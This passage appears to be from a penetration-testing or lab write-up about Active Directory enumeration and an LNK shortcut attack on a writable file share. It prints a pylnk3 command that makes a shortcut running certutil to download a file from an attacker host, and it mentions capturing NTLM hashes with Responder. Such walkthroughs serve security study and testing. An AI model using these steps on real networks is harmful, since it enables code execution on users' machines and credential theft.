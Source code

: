 
Having domain credentials opens up a whole new world of enumeration possibilities:

- Gathering Bloodhound data
- Gathering Certipy data
- Check LDAP signing
- Check Machine Account Quota
- Check for kerberoastable accounts



## LNK File Attack 

Cool ! We got write access in the Custom Folder of the public Share . which is the `Folder for custom shortcuts & internet links.`

We can craft our lnk files , So if some users being curious enough to **click** on shortcut files

--> We can grab hash on responder / steam ntlm , but that hash wasn't crackable !

--> We can relay authentication , But we cant do in this situation !

-->  We can craft lnk to download and run our beacon on behalf of that user !

```
└─# pylnk3 create C:/Windows/System32/cmd.exe -a "/c certutil.exe -f -split -urlcache http://10.8.0.148/hashgrab.py & " check.lnk
```
